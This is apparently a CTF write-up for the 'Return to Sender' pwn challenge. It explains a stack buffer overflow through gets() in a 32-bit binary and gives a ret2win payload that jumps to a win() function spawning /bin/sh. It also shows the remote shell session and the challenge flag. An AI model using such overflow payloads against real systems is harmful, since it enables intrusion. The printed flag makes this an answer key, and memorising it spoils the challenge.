 ## Problem info
<table>
  <tr>
    <td><strong>Name</strong></td>
    <td>Return to Sender</td>
  </tr>
  <tr>
    <td><strong>Category</strong></td>
    <td>Pwn</td>
  </tr>
  <tr>
    <td><strong>Message</strong></td>
    <td>Written by: Ptomerty<br>
Who knew the USPS could lose a letter so many times?<br>
<font color="F11766">nc pwn.hsctf.com 1234</font><br>
</td>
  </tr>
  <tr>
    <td><strong>Flags</strong></td>
    <td>hsctf{fedex_dont_fail_me_now}</td>
  </tr>
  <tr>
    <td><strong>Files</strong></td>
    <td>return-to-sender    return-to-sender.c </td>
  </tr>
  <tr>
    <td><strong>Tags</strong></td>
    <td></td>
  </tr>
  <tr>
    <td><strong>Hints</strong></td>
    <td>This might come in handy: https://en.wikipedia.org/wiki/Stack_buffer_overflow</td>
  </tr>
</table>

## Solution

After reading the source code, we see there is a nice target runs system(/bin/sh)
```
void win() {
	system("/bin/sh");
}
```

And the vulnerable function 'gets' lies in vuln:
```
void vuln() {
	char dest[8];
	printf("Where are you sending your mail to today? ");
	gets(dest);
	printf("Alright, to %s it goes!\n", dest);
}
```

Seemingly an easy ROP by bufferover flow would solve the problem. Check the program type:
```
$ file return-to-sender  
return-to-sender: ELF 32-bit LSB executable.
```
Keep in mind its a 32-bit executable.

Recall the source code assigned 8 bits for dest, therefore a reasonable predict for a 16bit input. Anyway gdb-peda the program.

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

gdb-peda$ info function
All defined functions:

Non-debugging symbols:
...
0x08049140  register_tm_clones
0x08049180  __do_global_dtors_aux
0x080491b0  frame_dummy
0x080491b6  win
0x080491e1  vuln
0x08049230  main
...
```

By checksec and function address, now we know where to go : win at `0x080491b6`

Therefore construct the payload by [pwning.py](./pwning.py), were the payload sketch would be

`payload = 'a'*0x10 + 'aaaa' + p32(0x080491b6)`

and then were successfully get /bin/sh:

```
$ python pwning.py
[+] Opening connection to pwn.hsctf.com on port 1234: Done
[*] Switching to interactive mode
Where are you sending your mail to today? Alright, to aaaaaaaaaaaaaaaaaaaa\xb6\x91\x0 it goes!
$ ls
bin
dev
flag
lib
lib32
lib64
return-to-sender
return-to-sender.c
$ cat flag
hsctf{fedex_dont_fail_me_now}
``` 